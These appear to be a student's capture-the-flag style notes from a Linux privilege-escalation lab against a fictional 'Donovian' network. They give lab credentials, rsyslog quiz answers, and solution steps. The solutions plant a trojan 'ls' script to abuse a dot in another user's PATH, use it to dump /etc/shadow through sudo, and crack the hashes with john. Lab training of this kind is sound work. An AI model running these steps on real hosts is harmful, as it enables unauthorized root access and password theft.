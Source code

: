 Donovian Linux Privilege Escalation, and Persistence (DLP)
XX Feb 2027
Start Time: 1300
Duration: 4 hours

Type of Operation: Cyberspace Exploitation (C-E)

Objective: Maneuver into the Donovian internal network, gain privileged access to discovered Linux hosts.

Tools/Techniques: SSH masquerade into internal network with provided credentials. Ports in use will be dependent on target location and are subject to change. Linux techniques to gain privileged access and persist are limited to host misconfigurations, open suid/sgid, weak permissions, and path. Network scanning tools/technique usage is at the discretion of student.

Scenario Credentials: FLAG = H@RDl1nux5t@rt0F@ct1v1ty

Prior Approvals: Privilege escalation, persistence, and restarting of services through host reboot. Host survey and log sanitation utilizing native command shells, which shell is at discretion of student. NOT authorized is uploading of tools or altering account information.

Scheme of Maneuver:
>Jump Box
->Pivot:192.168.28.105
--->T1: 192.168.28.27
--->T2: 192.168.28.12

Target Section:

Pivot
Hostname: Donovian-Terminal
IP: 192.168.28.105
OS: Ubuntu 18.04
Creds: comrade :: StudentReconPassword
Last Known SSH Port: 2222
PSP: rkhunter
Malware: none
Action: Perform SSH masquerade and redirect to the next target. No survey required, cohabitation with known PSP approved.

T1
Hostname: unknown
IP: 192.168.28.27
OS: Linux ver: Unknown
Creds: comrade :: StudentPrivPassword
Last Known Ports: unknown
PSP: unknown
Malware: unknown
Action: Test supplied credentials, if possible gain access to host. Conduct host survey and gain privileged access.

T2
Hostname: unknown
IP: 192.168.28.12
OS: Linux ver: Unknown
Creds: comrade :: StudentPrivPassword
Last Known Ports: unknown
PSP: unknown
Malware: unknown
Action: Test supplied credentials, if possible gain access to host. Conduct host survey and gain privileged access.


## Cover
### rsyslog 1
Which rule will send a message to any logged in user?
- *.emerg				:omusrmsg:*

### rsyslog 2
Yes/No: If this file were named /etc/rsyslog.conf, would the configuration be a concern for us if we gained accessed through secure shell as an attacker?
- Y; all logs being forwarded to log server

### rsyslog 3
Which active rule or rules is using a abnormal logging location?
- local7.alert		        /var/tmp/boot.log
  - not usual to see the local1-20 sent to boot.log

### rsyslog 4
What priority level will user facility log?
- 1.!crit,!debug,emerg,!info   -/var/log/user.log
  - only looking for emerg

### rsyslog 5
Is remote logging enabled?
- Y
  - *.* action(type="omfwd" target="193.0.12.1" port="10514" protocol="udp")

### rsyslog 6
What servers could this system send logs to? (also consider commented entries)
- 193.0.12.1
  - # *.*       @@192.0.2.1:13232
    *.* action(type="omfwd" target="193.0.12.1" port="10514" protocol="udp")
    #*.* action(type="omfwd" target="192.0.42.1" port="1514" protocol="udp")

### rsyslog 7
What transport layer protocol does @@ utilize for communications when remote logging?
- TCP

### rsyslog 8
Which rules are inactive, what are their facilities?
- auth, authpriv, cron, ftp, kern, lpr

### Log Sanitization


## Priv
### Enumerate
There is a user on the system with the ability to sudo certain programs that has a '.' dot in their path and is navigating to and listing the contents of common world writable directories approximately every five minutes.
The user's script is running like this:
cd `printf "/var/tmp\n/tmp\n"|sort -R | head -n 1`;ls
The flag is located in this users home directory.
- cat /etc/passwd
- ls -la /home/billybob
- cd `printf "/var/tmp\n/tmp\n"|sort -R | head -n 1`;ls
  - systemd-private-f54afd5959054b778cf2e07e39e85539-systemd-resolved.service-VdDtii
    systemd-private-f54afd5959054b778cf2e07e39e85539-systemd-timesyncd.service-b22usC
- create script for 'ls'
  - nano ls
    - #! /bin/bash
      chmod 777 /home/billybob
  - chmod +x ls
  - cp ls /var/tmp/
  - watch ls -la /home/billybob
- 'f!@g1.txt'

### Escalate
A command this user is able to sudo can be abused to obtain access as another user. This may take some research and effort to obtain root access with it.
It is possible that your initial user does not have sudo privileges and that you will need to move laterally to another account.
The flag can be found under the root profile directory
- sudo -l
- updated the ls script
  - #! /bin/bash
    sudo -l
    sudo cat /etc/shadow >> pass
- monitor for pass update
- take zeus shadow out and place in ops box
- run john
  - john --wordlist=<wordlist> zeus
  - john --show zeus
    - grab password
   
  
